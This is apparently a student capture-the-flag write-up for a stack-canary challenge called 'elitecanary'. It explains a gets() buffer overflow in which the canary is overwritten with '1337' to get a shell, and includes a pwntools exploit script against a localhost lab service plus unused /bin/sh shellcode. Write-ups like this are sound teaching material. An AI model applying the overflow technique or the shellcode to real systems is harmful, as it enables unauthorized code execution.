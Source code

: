 ref: 4 | Canary 1 | elitecanary
===========================

General overview of problems faced
-------------------------------------
- Learned what a canary was and why it was used
- Started using IDA in order to facilitate the reverse engineering process

List of vulnerabilities
--------------------
1. The buffer is of fixed length and the program uses 'gets' to take input from the user. Therefore a buffer overflow is possible. The program has buffer overflow mitigation (aka a canary) which is loaded after the buffer in memory and checked at the end to make sure the user has not overflown the buffer and modified the canary.
In this particular case, by reverse engineering the program we can see that if the canary is equal to "1337", the program will give you a shell. Hence, we are able to overflow the buffer and overwrite the canary to be equal to "1337".

Steps to exploit
------------------
1. Use objdump, IDA or otherwise to the extract the requested value for the canary ("1337" in this case)
2. Send 32 bytes to the input and then "1337" to overwrite the current canary
3. Congratulations! You now have a shell!

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

NOP_OPERATOR = '\x90'
SHELLCODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'

LEN_SHELL = len(SHELLCODE)

def main():
    target = "localhost"
    port = "6001"

    buf_len = 32 # length of input buffer

    canary = "1337"

    r = remote( target, port )

    r.sendline( "A" * buf_len + canary )

    r.interactive()

if __name__ == '__main__':
    main()
```
